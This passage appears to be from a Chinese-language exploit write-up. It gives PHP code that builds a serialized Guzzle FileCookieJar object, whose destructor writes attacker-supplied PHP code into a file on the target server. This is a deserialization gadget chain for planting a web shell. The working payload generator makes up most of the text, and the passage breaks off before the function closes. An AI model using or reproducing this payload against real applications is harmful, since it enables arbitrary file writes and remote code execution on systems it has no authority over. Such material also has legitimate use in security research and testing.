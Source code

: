 ### 步骤一：序列化 Payload 构造  
  
本框架中使用了Guzzle，我们使用的Payload 是一个经过序列化的 GuzzleHttp\Cookie\FileCookieJar  
 对象。  
  
这个类在执行 __destruct  
 方法时会将 Cookie 写入到指定文件。  
```
<?php
// 生成GuzzleHttp\Cookie\FileCookieJar序列化Payload的PHP代码
function generateFileCookieJarPayload($phpCode = '<?php phpinfo();?>', $filename = 'ttest.php')
{
    // 手动构造序列化数据
    $setCookieData = [
        'Name' => 'aaa',
        'Value' => $phpCode,
        'Domain' => 'testDomain',
        'Path' => '/',
        'Max-Age' => null,
        'Expires' => null,
        'Secure' => false,
        'Discard' => false,
        'HttpOnly' => false
    ];

    // 构造SetCookie序列化字符串
    $setCookie = 'O:27:"GuzzleHttp\\Cookie\\SetCookie":1:{';
    $setCookie .= 's:33:"' . "\0" . 'GuzzleHttp\\Cookie\\SetCookie' . "\0" . 'data";';
    $setCookie .= 'a:9:{';

    foreach ($setCookieData as $key => $value) {
        $setCookie .= 's:' . strlen($key) . ':"' . $key . '";';

        if ($value === null) {
            $setCookie .= 'N;';
        } elseif (is_bool($value)) {
            $setCookie .= 'b:' . ($value ? '1' : '0') . ';';
        } else {
            $setCookie .= 's:' . strlen($value) . ':"' . $value . '";';
        }
    }

    $setCookie .= '}}';

    // 构造FileCookieJar序列化字符串
    $fileCookieJar = 'O:31:"GuzzleHttp\\Cookie\\FileCookieJar":4:{';
    // cookies属性
    $fileCookieJar .= 's:36:"' . "\0" . 'GuzzleHttp\\Cookie\\CookieJar' . "\0" . 'cookies";';
    $fileCookieJar .= 'a:1:{i:1;' . $setCookie . '}';

    // strictMode属性
    $fileCookieJar .= 's:39:"' . "\0" . 'GuzzleHttp\\Cookie\\CookieJar' . "\0" . 'strictMode";';
    $fileCookieJar .= 'b:0;';

    // filename属性
    $fileCookieJar .= 's:41:"' . "\0" . 'GuzzleHttp\\Cookie\\FileCookieJar' . "\0" . 'filename";';
    $fileCookieJar .= 's:' . strlen($filename) . ':"' . $filename . '";';

    // storeSessionCookies属性
    $fileCookieJar .= 's:52:"' . "\0" . 'GuzzleHttp\\Cookie\\FileCookieJar' . "\0" . 'storeSessionCookies";';
    $fileCookieJar .= 'b:1;}';

    return $fileCookieJar;
```